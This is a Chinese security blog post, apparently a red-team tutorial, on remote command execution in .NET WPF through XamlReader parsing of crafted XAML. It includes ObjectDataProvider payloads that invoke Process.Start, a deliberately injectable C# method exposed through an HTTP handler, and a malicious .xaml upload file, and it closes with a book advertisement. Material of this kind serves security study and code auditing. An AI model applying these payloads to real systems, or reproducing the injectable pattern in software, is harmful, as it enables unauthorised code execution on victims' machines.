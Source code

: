 #  .NET WPF 下的新思路，通过 XAML 实现代码执行  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-24 00:43  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，寻找一条干净、无文件、规避防护的命令执行路径一直是行动的关键。传统的 Web Shell、反序列化漏洞、反射加载等方式虽然威力强大，但在 EDR 与主机防护产品，比如 Defender、360、火绒日渐严密的今天，往往难以隐身。  
  
本文将聚焦一个极少被利用的 .NET 攻击面 —— **XamlReader 动态解析 XAML 的特性**  
。通过精心构造的 XAML 载荷，我们可以在目标机器上无文件启动任意系统进程，实现隐蔽的远程命令执行。  
  
**01. 技术背景介绍**  
  
  
  
在 .NET 应用中，WPF 因其强大的界面绘制能力和灵活的数据绑定机制而被广泛使用。与传统的 Windows Forms 不同，WPF 使用一种名为 XAML 的声明式标记语言来描述 UI 元素和数据交互逻辑。  
## 1.1 WPF 框架  
  
WPF 是 Microsoft 在 .NET Framework 3.0 中引入的一套 UI 框架，专为构建丰富客户端应用而设计。与 WinForms 相比，WPF 支持硬件加速渲染、更强的控件组合能力、样式控制、动画、数据绑定等高级特性。在 WPF 应用中，通常通过 XAML 文件来定义界面布局，然后在后台代码中为控件编写逻辑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMI6UMeEuYBPs645hATYjane3yu3CInZ0ORC3P457KIO09O3MQbgF8Hg/640?wx_fmt=png&from=appmsg "")  
## 1.2 XAML 介绍  
  
XAML 是一种基于 XML 的标记语言，用于声明 UI 组件及其行为。例如，一个简单的按钮控件可以如下声明：  
  
```
<Button Content="点击我" Width="100" Height="50"/>
```  
  
  
XAML 允许嵌套、绑定、动画、数据源等复杂逻辑。例如：  
  
```
<ObjectDataProvider x:Key="launch" ObjectType="{x:Type sys:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><sys:String>calc.exe</sys:String></ObjectDataProvider.MethodParameters></ObjectDataProvider>
```  
  
  
以上声明可在运行时调用 Process.Start("calc.exe")  
 启动计算器。  
  
**02. XamlReader**  
  
  
  
System.Windows.Markup.XamlReader 是 WPF 的核心类之一，存在于 PresentationFramework.dll  
 中。该类提供了一系列方法，可用于将 XAML 字符串或流解析成实际的 .NET 对象。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMn7DUzmnajzZlFhO6qJlM4pt28NIaLAVMQEOr7RsDopZrNSC0Y2p1Ag/640?wx_fmt=png&from=appmsg "")  
## 2.1 动态构造XAML  
  
在支持 WPF 的 Web API、富客户端、插件化平台或用户自定义模板系统中，若系统直接调用了 XamlReader.Parse()  
 来解析用户输入的数据，便存在命令执行的风险，具体代码如下所示。  
  
```
publicstaticvoidCodeInject(string input){StringBuilder xaml =newStringBuilder();    xaml.Append("<ResourceDictionary ");    xaml.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");    xaml.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");    xaml.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");    xaml.Append("xmlns:pro=\"clr-namespace:System.Diagnostics;assembly=System\">");    xaml.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");    xaml.Append("<ObjectDataProvider.MethodParameters>");    xaml.Append("<b:String>cmd</b:String>");    xaml.Append($"<b:String>/c {input}</b:String>");    xaml.Append("</ObjectDataProvider.MethodParameters>");    xaml.Append("</ObjectDataProvider>");    xaml.Append("</ResourceDictionary>");    XamlReader.Parse(xaml.ToString());}
```  
  
  
上述代码段中，程序利用StringBuilder  
类动态构建了一个  
XAML  
字符串，该字符串定义了一个ResourceDictionary。  
  
其中包含了一个ObjectDataProvider  
元素，这个ObjectDataProvider  
被配置为启动System.Diagnostics.Process  
类的Start  
方法，进而调用cmd.exe /c  
命令运行指定的程序，如winver.exe  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMTiaibWdfK6uZaV1mIJib4cLVdsoM8prpXoUdV0wenEqnicxjZQ1quFeNPQ/640?wx_fmt=png&from=appmsg "")  
  
  
如果部署了如下 ashx  
 接口，通过  
HTTP  
请求访问XamlReaderParseSpy.ashx?input=winver  
，可以触发此  
XAML  
代码的解析并成功启动进程。  
  
```
publicvoidProcessRequest(HttpContext context){string cmd = context.Request["input"];CodeInject(cmd);}
```  
  
## 2.2 文件方式触发  
  
XamlReader.Load 可解析来自本地磁盘的 .xaml  
 文件，若系统允许用户上传或修改 .xaml  
 配置，攻击者可构造恶意文件并上传，等待后台加载。  
  
```
<Window xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"        xmlns:sys="clr-namespace:System;assembly=mscorlib"        xmlns:local="clr-namespace:System.Diagnostics;assembly=System"><Window.Resources><ObjectDataProvider x:Key="cmd" ObjectType="{x:Type local:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><sys:String>calc</sys:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></Window.Resources></Window>
```  
  
  
通过LoadAsync方法正常解析Dictionary2.xaml文件中保存的攻击负载，成功启动本地计算器进程，如下图所示。  
  
  
综上，XAML 是强大且灵活的 UI 构建语言，而 XamlReader 作为其解析入口，在客户端开发中不可或缺。然而，这样的灵活性，也意味着红队可以利用它实现代码执行。在代码审计、漏洞挖掘和红队测试中，识别并利用这些非常规路径，是突破防御系统的关键一环。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaM9dwmUUIv73sywQo4t1lZUueVBOn7dTgs4s8Sq0hec7PtyHDYqYdnhA/640?wx_fmt=png&from=appmsg "")  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售127元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
